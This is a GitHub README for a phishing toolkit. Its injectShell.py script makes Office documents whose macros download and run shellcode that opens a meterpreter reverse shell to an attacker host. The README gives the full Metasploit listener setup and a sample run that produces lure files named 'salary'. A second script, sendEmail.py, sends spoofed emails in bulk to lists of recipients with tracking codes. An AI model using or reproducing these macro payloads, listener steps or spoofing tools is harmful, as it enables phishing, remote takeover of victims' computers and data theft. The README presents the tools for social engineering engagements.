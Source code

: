 # Social-Engineering-Toys
Social Engineering Toys  
  
  
Check this blog post https://milo2012.wordpress.com/2016/02/01/phishing-toys/ for more information.  
  
**injectShell.py**  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that downloads and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```
    
     
   
    
**sendEmail.py**  
This script is useful in sending spoofed emails to some SMTP servers. This can be useful in social engineering engagements.    
  
Below is the help screen of the script.    
```
$ python sendEmail.py -h
usage: sendEmail.py [-h] [-f F] [-n N] [-e E] [-t T] [-iL IL] [-v]

optional arguments:
  -h, --help  show this help message and exit
  -f F        [html file containing the email body]
  -n N        [recipient name]
  -e E        [recipient email]
  -t T        [delay between 1 to x seconds (random)]
  -iL IL      [file containing recipient name and email addresses per line
              separated by comma]
  -v          [verbose]
```
  
Below is the script in action.  
```
$ python sendEmail.py -iL namelist.txt -f sampleHtml.txt -t 10
Sending email to: test01@example.com  
```
  
Below are two sample formats of namelist.txt  
**Below is sample 1**  
The fields are separated by ","   
The first field is: recipient's name  
The second field is: recipient's email address  


```
Keith,keith123@hotmail.com
```

**Below is sample 2**  
The first field is: recipient's name  
The second field is: recipient's email address  
The last field is: tracking code  

```
Keith,keith123@hotmail.com,UAG21E
```
